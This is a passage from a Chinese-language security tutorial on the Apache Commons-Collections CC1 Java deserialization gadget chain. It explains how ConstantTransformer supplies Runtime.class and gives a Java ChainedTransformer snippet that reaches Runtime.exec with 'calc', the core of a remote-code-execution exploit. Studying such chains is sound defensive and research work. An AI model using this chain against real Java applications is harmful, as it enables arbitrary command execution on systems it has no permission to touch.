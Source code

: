 ## 解决问题 ③ 控制 setValue 参数

最终传入的参数不是我们想要的，我们要传入的参数应该是`Runtime.class`所以要控制这个参数

![image-20250927181153538](Commons-Collections%E7%AF%8701-CC1%E9%93%BE/image-20250927181153538.png)

![image-20250923164817021](./Commons-Collections篇01-CC1链/image-20250923164817021.png)

- 构造函数是将对象放在`iConstant`中
- `transform`方法无论传入什么都返回`iConstant`

这里不是很容易懂，可以在`setvalue`处打个断点一步一步调试

在链子的前半部分用不到这个`value`值，只有在`transform方法`时才会用到这个`value`值，因为要读取`Runtime.class`下的方法，正好`ConstatntTransformer`类的构造方法和`transform`方法可以重新定义value值

只需要在创建`transformers`数组时，使用构造函数将`Runtime.class`传入，后面`transform`就都会调用`Runtime.class`

```java
Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                 new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
                 new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,null}),
                new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"})
        };
         ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
```
